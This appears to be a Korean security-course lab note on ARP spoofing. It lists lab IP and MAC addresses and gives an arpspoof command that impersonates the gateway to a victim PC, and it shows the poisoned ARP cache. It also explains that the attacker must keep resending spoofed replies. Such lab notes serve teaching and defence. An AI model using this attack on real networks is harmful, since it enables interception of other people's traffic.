 ### 실습

![image_17](/assets/img/sk_shieldus_26/250716_image_17.png)

192.168.10.2 : 00:50:56:e6:7e:0c

192.168.10.10 : 00:0c:29:e4:28:2e

192.168.10.20 : 00:0c:29:90:ba:a6

192.168.10.30 : 00:0c:29:34:7e:b3

- arpspoofing 명령어
    - 하기 전에 root로 변경해야 함
    
    ```bash
    arpspoof -i -eth0 -t 192.168.10.40 192.168.10.2
    ```
    
    - -i : eth0 정보
    - -t [대상IP] [공격대상에게 위장할IP]

- 피해 PC에서 ARP 캐시테이블 확인
    
![image_18](/assets/img/sk_shieldus_26/250716_image_18.png)
    

MAC 주소 10.2와 10.10(공격자) MAC이 같음

→ 에이징 타임으로 피해 PC가 ARP 테이블 갱신 안하게 하기 위해서 공격자는 지속적으로 ARP Spoofing 공격을 해야함
